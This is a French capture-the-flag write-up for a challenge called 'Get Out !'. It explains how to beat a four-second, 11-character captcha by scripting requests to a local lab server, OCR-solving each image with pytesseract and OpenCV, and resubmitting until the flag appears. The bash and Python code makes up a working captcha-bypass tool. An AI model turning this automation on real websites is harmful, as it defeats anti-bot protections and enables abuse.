







# Challenge
Get Out !

## Enonce
Vous êtes pris dans un état hypnotique, et pour vous échapper, vous devrez faire preuve d'un dernier effort de lucidité et de rapidité. Votre esprit sera mis à l'épreuve, et si vous échouez, l'hypnose reprendra le contrôle. C'est votre seule chance de ne pas sombrer.

## Solution
En arrivant sur la page d'accueil, on nous invite à commencer un challenge.
Aussitot, un captcha de 11 caractères s'affiche et seulement 4 secondes sont données pour y le renseigner.



Lorsque l'on capture les échanges HTTP, nous obtenons une première requète GET `/generate-catcha` qui permet de charger une image catcha sur l'écran de l'utilisateur :



Puis en tentant d'envoyer une valeur arbitraire, nous obtenons une requête POST `/validate-catcha` :



Si nous tentons de rejouer la requête POST cela indique que la session a expiré :



Il faut alors scripter pour tenter de rentrer dans les temps.
La premières étape va donc etre d'enregistrer un captcha puis chercher si des solutions existent permettant de le résoudre rapidement.

Le fichiers assets/scripts.js nous renseigne sur l'endroit où l'on pourra effectuer le téléchargerement de l'image :



Une rapide recherche sur notre navigateur préféré nous remonte 2 outils de résolution de captcha qui semblent plutôt populaires : `gocr` et `pytesseract`

Un code déjà tout prêt est disponible dans ce lien : [pytesseract script link](https://gist.github.com/lobstrio/da95d31bff3f83a5e95ee9daeb253107)

Ne reste plus qu'à tester ... (Il se peut que certaines erreurs se fassent en fonction de la lisibilité du captcha)



Nous avons maintenant notre outil pour résoudre le captcha.

Reste désormais à autormatiser tout ça.

***solve.sh***
```
#/bin/bash

HOST="127.0.0.1"
PORT="666"
DEST_IMAGE="/tmp/img_chall_getout.png"
i=0
while true; do
  i=$((i+1))
  # Génération du captcha
  response=$(curl -s -i http://${HOST}:${PORT}/generate-captcha)

  # Extraire le cookie "session_id"
  session_id=$(echo "${response}" | grep -Fi "Set-Cookie" | sed -n 's/Set-Cookie: session_id=\(.*\);.*/\1/p')
  # Extraire le nom de fichier (corps de la réponse)
  file_name=$(echo "${response}" | tail -n 1)

  # Télécharger le captcha généré
  curl -s http://${HOST}:${PORT}/static/captchas/${file_name} -o ${DEST_IMAGE}
  # Executer le script de résolution de captcha
  ocr=$(python3 resolve_captcha.py ${DEST_IMAGE})

  # Soumission du captcha résolu
  result=$(curl -s -X POST http://${HOST}:${PORT}/validate-captcha -b session_id=${session_id} -d captcha=${ocr})
  echo "Test ${i} -> $ocr -> ${result}"
  # Stopper la boucle si la chaine "ENI{" (format du flag) est comprise dans la réponse
  if echo "${result}" | grep -q "ENI{"; then
    break
  fi
  rm -f ${DEST_IMAGE}
done

```

***resolve_captcha.py***
```
import cv2
from pytesseract import image_to_string
import re
import sys

# pip3 install opencv-python
# pip3 install pytesseract
# MacOS : brew install tesseract

# Filename donné en parametre au sein du script solve.sh
filename = sys.argv[1]
img = cv2.imread(filename)
gry = cv2.cvtColor(img, cv2.COLOR_BGR2GRAY)
(h, w) = gry.shape[:2]
gry = cv2.resize(gry, (w*2, h*2))
cls = cv2.morphologyEx(gry, cv2.MORPH_CLOSE, None)
thr = cv2.threshold(cls, 0, 255, cv2.THRESH_BINARY | cv2.THRESH_OTSU)[1]
txt = image_to_string(thr)
txt_cleaned = re.sub(r"[^a-zA-Z0-9À-ÿ'\"!@#$%^&*()_+={}\[\]:;,.<>?\/\\|-]", "", txt)
print(txt_cleaned)

```

En lançant le script bash `solve.py`, une requête curl va effectuer une génération de captcha, le télécharger, puis tenter de le déchiffrer. Pour finir, le script soumettra la valeur trouvée.
Cette boucle se répétera jusqu'à ce qu'une réponse comportant le début du flag apparaisse :



## Hints
- Existe-il des outils ou scripts populaires permettant de resoudre les captchas sur lesquels s'appuyer ?
- On me souffle à l'oreillette de se renseigner sur la librairie pytesseract
